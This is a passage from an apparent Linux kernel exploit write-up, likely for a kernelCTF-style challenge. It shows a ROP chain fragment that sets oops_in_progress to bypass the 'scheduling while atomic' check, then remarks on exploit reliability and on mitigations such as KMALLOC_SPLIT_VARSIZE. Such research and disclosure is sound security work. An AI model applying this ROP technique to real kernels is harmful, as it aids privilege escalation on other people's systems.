To bypass "scheduling while atomic" instead, the kernel was tricked into believing that a oops was in progress setting [oops_in_progress](https://elixir.bootlin.com/linux/v6.1/source/include/linux/printk.h#L15) to 1:

```c
	// Bypass "schedule while atomic": set oops_in_progress = 1 
	rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
	rop[idx++] = 1;                          // 1
	rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
	rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
	rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)
```

If `oops_in_progress` contains a non-zero value indeed, [__schedule_bug()](https://elixir.bootlin.com/linux/v6.1/source/kernel/sched/core.c#L5730) will simply return without triggering any error, and we will be able to gracefully return to userspace.

# Additional information

mitigation-6.1-v2 update: After enabling the `KMALLOC_SPLIT_VARSIZE` mitigation and making some minor adjustments to the source code, the exploit reliability improved to about 80%, even though limited time was dedicated to this aspect.
This may at first seem paradoxical, but it is actually a side effect of separating objects into multiple caches, slabs tend to be less prone to noise, and this leads to increased stability.

Considering that my original exploit for this vulnerability for a system without experimental mitigations was only ~150 lines of code, did not require user namespaces, and was very stable, the experimental mitigations, despite being bypassed by the technique described above, are very effective and have successfully stopped many of my other exploitation strategies. I will probably cover some of these failed (but very interesting!) attempts on [my blog](https://syst3mfailure.io).